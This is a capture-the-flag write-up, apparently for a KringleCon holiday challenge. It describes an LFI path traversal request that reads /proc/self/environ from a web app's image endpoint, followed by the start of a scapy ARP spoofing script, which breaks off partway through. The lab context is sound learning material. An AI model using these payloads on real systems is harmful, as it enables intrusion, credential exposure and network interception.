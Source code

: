 
Our final filters can look like:
```
19B#000000F2057
080#*FF*
```

And those filters successfully solved the challenge!




# Objective 8
`ANSWER: JackFrostWasHere`

This challenge involved a web application that, most notably, allowed file uploads + viewing of that file.

Enumeration with `dirb` and `Burp Suite` revealed the `/image` and `/upload` API endpoints.

After an image was uploaded, it was assigned with a random ID (which could be determined by recording history with Burp) and made viewable from the `image/` endpoint. I.e., `https://tag-generator.kringlecastle.com/image?id=382a8af4-cf8e-4b4a-8a24-06a1ce82db43.png`

As with all image upload web applications, a simple Local File Inclusion (LFI) test is in order. Knowing that the system environment variables are what we are after, I can craft a LFI payload that inspects the file `/proc/self/environ`, which contains all system env variables in a simple file. 

I sent this payload the Burp Repeater:
```HTTP
GET /image?id=../../../../../../../proc/self/environ HTTP/1.1
```

And was returned the contents of the file! It displayed the `GREETZ` env variable, which had the value `JackFrostWasHere`.



# Objective 9
`ANSWER: Tanta Kringle`

This challenge began by sniffing traffic and discovering repeated ARP requests. I sniffed traffic using `tcpdump`:
```
$ tcpdump -nni eth0
```

An ARP response script using `scapy` was provided, but it was missing pertient data. This data had to be determined by simple packet analysis of the ARP request, and seeing what machine was sending the request, and what MAC it wanted to resolve. My full working code is as follows:
```python
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid

# Our eth0 ip
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our eth0 mac address
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])

print(ipaddr)
print(macaddr)

def handle_arp_packets(packet):
    # if arp request, then we need to fill this out to send back our mac as the response
    if ARP in packet and packet[ARP].op == 1:
        ether_resp = Ether(dst="4c:24:57:ab:ed:84", type=0x806, src=macaddr)

```